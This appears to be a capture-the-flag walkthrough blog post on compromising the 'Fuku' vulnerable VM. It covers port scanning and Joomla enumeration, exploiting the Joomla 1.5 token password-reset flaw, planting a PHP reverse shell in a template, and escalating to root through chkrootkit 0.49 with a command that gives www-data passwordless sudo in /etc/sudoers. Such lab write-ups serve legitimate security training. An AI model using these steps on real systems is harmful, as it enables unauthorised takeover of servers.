 ```yaml
---
layout: post
title: "SecTalks: BNE0x02 - Fuku"
date: 2016-07-18 16:00:27 -0500
comments: true
categories: [vulhub, joomla!,chrootkit]
---
```



###Tools:

* netdiscover
* Nmap
* Netcat
* Wfuzz
* Nikto
* Joomscan

###Vulnerability:

* [Joomla 1.5.x - (Token) Remote Admin Change Password](https://www.exploit-db.com/exploits/6234/)
* [Chkrootkit - Local Privilege Escalation](https://www.exploit-db.com/exploits/38775/)

<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.56.0/24`

{% img  /images/blog/vulhub/fuku/Capture1.JPG   [title manually exploit [alt text]] %}

192.168.56.134 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.56.134 -p-`


{% img  /images/blog/vulhub/fuku/Capture2.JPG   [title manually exploit [alt text]] %}

as we can see, almost every port is opening. I guess the target machine doesn't want hacker know which services are exactly running.

I use nc to read some ports such as 80 22 23. Port 22 gets result like:

```
SSH-2.0-OpenSSH 6.7p1 Ububtu-5ubuntu1
```

while the rest of ports get the results:

{% img  /images/blog/vulhub/fuku/Capture14.JPG   [title manually exploit [alt text]] %}

looks like I need to filter ports like these. I wrote a script to make life easier [filter.py](https://github.com/wg135/script/blob/master/filter.py)

After running the script, I find only port 22 and port 13370 are opening.

check the http://192.168.56.134:13370. I got this


{% img  /images/blog/vulhub/fuku/Capture3.JPG   [title manually exploit [alt text]] %}

review the code:

{% img  /images/blog/vulhub/fuku/Capture4.JPG   [title manually exploit [alt text]] %}

Looks like Joomla!

use wfuzz to scan

`wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.56.134:13370/FUZZ 2>/dev/null`


{% img  /images/blog/vulhub/fuku/Capture5.JPG   [title manually exploit [alt text]] %}

get some interesting path names


use Nikto to scan

`nikto -h http://192.168.56.134:13370`

{% img  /images/blog/vulhub/fuku/Capture6.JPG   [title manually exploit [alt text]] %}


check http://192.168.56.134:13370/administrator/ get the login page:

{% img  /images/blog/vulhub/fuku/Capture7.JPG   [title manually exploit [alt text]] %}

Now I can confirm it is Joomla!


use joomscan to scan:

`joomscan -u http://192.168.56.134:13370`

get the result:

{% img  /images/blog/vulhub/fuku/Capture8.JPG   [title manually exploit [alt text]] %}

follow the steps:

* go to http://192.168.56.134/index.php?option=com_user&view=reset&layout=confirm
* Write into field "token" char ' and Click OK.

{% img  /images/blog/vulhub/fuku/Capture15.JPG   [title manually exploit [alt text]] %}

* input new password for admin

{% img  /images/blog/vulhub/fuku/Capture16.JPG   [title manually exploit [alt text]] %}

* go to http://192.168.56.134/administrator/ to login with new password

{% img  /images/blog/vulhub/fuku/Capture9.JPG   [title manually exploit [alt text]] %}

Since it is Japanese version, I followed my post [sickos1.2](http://wg135.github.io/blog/2016/05/31/vulhub-sickos1-dot-2/) to upload php reverse shell (usr/share/webshells/php/php-reverse-shell.php).

{% img  /images/blog/vulhub/fuku/Capture17.JPG   [title manually exploit [alt text]] %}

I will edit beez file, copy the php reverse shell code to it and replace the IP address and port

{% img  /images/blog/vulhub/fuku/Capture10.JPG   [title manually exploit [alt text]] %}

set up netcat and get the shell

{% img  /images/blog/vulhub/fuku/Capture11.JPG   [title manually exploit [alt text]] %}

However, I cannot execute most commands even `python`

{% img  /images/blog/vulhub/fuku/Capture12.JPG   [title manually exploit [alt text]] %}


try:

`python2.7 -c 'import pty; pty.spawn("/bin/bash")'` 

works!

Now try to enumerate the os.

`ps aux |grep root`

{% img  /images/blog/vulhub/fuku/Capture18.JPG   [title manually exploit [alt text]] %}

looks like the `chkrootkit 0.49` is available.

I followed my previous post [sickos1.2](http://wg135.github.io/blog/2016/05/31/vulhub-sickos1-dot-2/) to upload php reverse shell (usr/share/webshells/php/php-reverse-shell.php) to get the root:

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

then:

`chmod 777 /tmp/update`

then:

`ls -al /etc/sudoers`

finally get the root:

`sudo su`

{% img  /images/blog/vulhub/fuku/Capture13.JPG   [title manually exploit [alt text]] %}
















